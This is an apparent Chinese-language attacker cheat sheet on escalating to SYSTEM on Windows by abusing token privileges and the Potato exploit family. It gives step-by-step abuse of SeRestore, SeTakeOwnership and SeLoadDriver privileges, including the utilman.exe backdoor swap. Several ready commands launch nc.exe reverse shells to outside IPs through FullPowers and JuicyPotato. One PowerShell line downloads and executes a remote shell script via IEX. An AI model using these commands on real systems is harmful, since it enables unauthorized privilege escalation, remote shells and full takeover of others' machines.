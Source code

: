 # 利用Impersonation 权限提权

**SeAssignPrimaryToken 权限:**  使用 **土豆家族** 来进行提权

**SeBackup  权限**：读取敏感文件robocopy /b

**SeCreateToken 权限**：使用创建任意令牌，包括NtCreateToken

**SeDebug 权限** ：复制`lsass.exe`令牌  ，利用方式：**可在[FuzzySecurity找到的脚本](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1)**

**SeLoadDriver 权限**：1.加载有缺陷的内核驱动程序，例如`szkg64.sys`或`capcom.sys`  2.利用驱动程序漏洞 （`szkg64`漏洞编号为[CVE-2018-15732](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15732)）（`szkg64`[漏洞利用代码](https://www.greyhathacker.net/?p=1025)）

**SeRestore 权限**：利用powershell

1.启动具有 SeRestore 权限的 PowerShell/ISE 2.使用[Enable-SeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)启用权限3.将 utilman.exe 重命名为 utilman.old 4.将 cmd.exe 重命名为 utilman.exe 5.锁定控制台并按 Win+U

**SeTakeOwnership 权限**：利用方式：1. takeown.exe /f "%windir%\system32” 2. icalcs.exe "%windir%\system32" /grant "%username%":F 3. 将 cmd.exe 重命名为 utilman.exe

4.锁定控制台并按 Win+U

**SeTcb 权限：未知**

## ****恢复服务帐户的权限-先决条件：权限为LOCAL SERVICE 或 NETWORK SERVICE****

https://github.com/itm4n/FullPowers 利用工具，下列为**利用方式**：

```bash
FullPowers    //加载程序
FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z 
```

**其他利用工具：**

```bash
Tokenvator.exe getsystem cmd.exe
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
psexec -s -i cmd.exe
python getsystem.py   # https://github.com/sailay1996/tokenx_privEsc
```

## ****RottenPotato (Token Impersonation先决条件)****

```bash
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

## ****Juicy Potato-具有SeImpersonate/SeAssignPrimaryToken 权限****

**如果机器>= Windows 10 1809 & Windows Server 2019 - 试试Rogue Potato**

**如果机器是< Windows 10 1809 < Windows Server 2019 - 试试Juicy Potato**

**EXP程序：[https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)**

**CLSID：**

1.  [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise)
2.  [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
3.  [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
4.  [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
5.  [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise)
6.  [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
7.  [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard)

**使用方式：**

```bash
cmd /c JuicyPotato64.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\ProgramData\nc.exe -e cmd.exe 10.10.14.3 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

```bash
JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
```

```bash
JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

## ****Rogue Potato****

`socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999`

**如果有防护墙限制：**

```bash
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
```

**如果可以在本地9999端口运行：**

```bash
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
```

**特定管道和CLSID运行：**

```bash
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

## ****EFSPotato (MS-EFSR EfsRpcOpenFileRaw)****

https://github.com/zcgonvh/EfsPotato - **EXP为编译的源码**

```bash
csc EfsPotato.cs
csc /platform:x86 EfsPotato.cs 
```

### **土豆系列提权：**

[Juicypotato 提权 (1)](%E5%88%A9%E7%94%A8Impersonation%20%E6%9D%83%E9%99%90%E6%8F%90%E6%9D%83%20ec1a8b0450e2454299151d4377c87709/Juicypotato%20%E6%8F%90%E6%9D%83%20(1)%2005659100040a4af398c7c6398ca914ed.md)

[土豆系列提权解说 (1)](%E5%88%A9%E7%94%A8Impersonation%20%E6%9D%83%E9%99%90%E6%8F%90%E6%9D%83%20ec1a8b0450e2454299151d4377c87709/%E5%9C%9F%E8%B1%86%E7%B3%BB%E5%88%97%E6%8F%90%E6%9D%83%E8%A7%A3%E8%AF%B4%20(1)%20bff2e02e3e0041bd82e81e758fd31599.md)